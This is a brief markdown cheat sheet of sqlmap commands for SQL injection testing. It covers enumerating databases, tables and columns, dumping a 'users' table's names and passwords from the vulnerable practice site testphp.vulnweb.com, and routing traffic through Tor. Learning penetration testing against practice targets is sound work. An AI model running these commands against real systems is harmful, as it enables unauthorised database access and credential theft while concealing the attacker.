 # sqlmap


If you need to save some time, you can increase the number of threads used. Do note that this might affect the results for time-based related test.

> sqlmap -u "url" --threads=10

Batch is using the default option instead of waiting for the user’s input.

> sqlmap -u "url" --batch

You could also increase the risk and level value for sqlmap to test for more payloads.

> sqlmap -u "url" --risk=3 --level=5

Obtain the names of available databases

> sqlmap -u "url" --dbs

Specify the desired database using –D and tell SQLmap to list the tables using –tables command. So, the final SQLmap command will be:

> sqlmap -u 'url' -D db_name --tables

Specify the database using –D, table using – T and columns using –columns:
> sqlmap -u 'url' -D db_name -T table_name –columns

As usual, use –D for database, -T for table, -C for column and –dump for data. The final command to fetch data will appear as shownbelow:

> sqlmap -u 'http://testphp.vulnweb.com/listproducts.php?cat=1' -D acuart -T users -C phone,name,pass --dump

Add tor proxy. Type _tor_ in terminal and then 

> sqlmap .....  --tor

All options on sqlmap page
https://github.com/sqlmapproject/sqlmap/wiki/Usage
